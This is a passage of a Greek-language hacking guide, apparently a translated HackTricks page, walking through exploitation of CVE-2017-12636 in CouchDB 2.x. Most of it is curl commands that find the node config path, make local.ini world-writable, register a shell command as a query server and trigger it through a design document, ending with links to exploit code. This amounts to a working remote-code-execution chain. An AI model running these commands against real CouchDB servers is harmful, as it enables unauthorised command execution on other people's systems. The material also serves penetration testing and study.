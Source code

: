 Εξερευνήθηκε μια ευπάθεια γνωστή ως CVE-2017-12636, η οποία επιτρέπει την εκτέλεση κώδικα μέσω της διεργασίας του CouchDB, αν και συγκεκριμένες ρυθμίσεις μπορεί να αποτρέψουν την εκμετάλλευσή της. Παρά την πληθώρα αναφορών Proof of Concept (POC) που είναι διαθέσιμες στο διαδίκτυο, απαιτούνται προσαρμογές για να εκμεταλλευτείτε την ευπάθεια στην έκδοση 2 του CouchDB, η οποία διαφέρει από τη συνήθως στοχευμένη έκδοση 1.x. Οι αρχικές ενέργειες περιλαμβάνουν τον έλεγχο της έκδοσης του CouchDB και την επιβεβαίωση της απουσίας της αναμενόμενης διαδρομής των διακομιστών ερωτημάτων.
```bash
curl http://localhost:5984
curl http://0xdf:df@localhost:5984/_config/query_servers/
```
Για να προσαρμοστεί στην έκδοση 2.0 του CouchDB, χρησιμοποιείται ένα νέο μονοπάτι:
```bash
curl 'http://0xdf:df@localhost:5984/_membership'
curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
```
Οι προσπάθειες για προσθήκη και εκτέλεση ενός νέου διακομιστή ερωτημάτων αντιμετωπίστηκαν με σφάλματα που σχετίζονται με τα δικαιώματα, όπως φαίνεται από την παρακάτω έξοδο:
```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```
Περαιτέρω έρευνα αποκάλυψε προβλήματα άδειας με το αρχείο `local.ini`, το οποίο δεν ήταν εγγράψιμο. Με τροποποίηση των δικαιωμάτων αρχείου με ρίζα ή πρόσβαση homer, έγινε δυνατή η συνέχιση:
```bash
cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
chmod 666 /home/homer/etc/local.ini
```
Οι επόμενες προσπάθειες για προσθήκη του διακομιστή ερωτημάτων επιτεύχθηκαν, όπως αποδεικνύεται από την απουσία μηνυμάτων σφάλματος στην απόκριση. Η επιτυχής τροποποίηση του αρχείου `local.ini` επιβεβαιώθηκε μέσω σύγκρισης αρχείων:
```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```
Η διαδικασία συνεχίστηκε με τη δημιουργία μιας βάσης δεδομένων και ενός εγγράφου, ακολουθούμενη από μια προσπάθεια εκτέλεσης κώδικα μέσω μιας προσαρμοσμένης προβολής που αντιστοιχεί στον νεοπροσταθέντα διακομιστή ερωτήσεων:
```bash
curl -X PUT 'http://0xdf:df@localhost:5984/df'
curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
curl -X PUT 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"anything": {"map": ""} }, "language": "cmd"}'
```
Ένα **[σύνοψη](https://github.com/carlospolop/hacktricks/pull/116/commits/e505cc2b557610ef5cce09df6a14b10caf8f75a0)** με έναν εναλλακτικό φορτίο παρέχει περαιτέρω εισαγωγή στην εκμετάλλευση του CVE-2017-12636 υπό συγκεκριμένες συνθήκες. **Χρήσιμοι πόροι** για την εκμετάλλευση αυτής της ευπάθειας περιλαμβάνουν:

- [Κώδικας εκμετάλλευσης POC](https://raw.githubusercontent.com/vulhub/vulhub/master/couchdb/CVE-2017-12636/exp.py)
- [Καταχώρηση στη βάση δεδομένων Exploit](https://www.exploit-db.com/exploits/44913/)

## Shodan
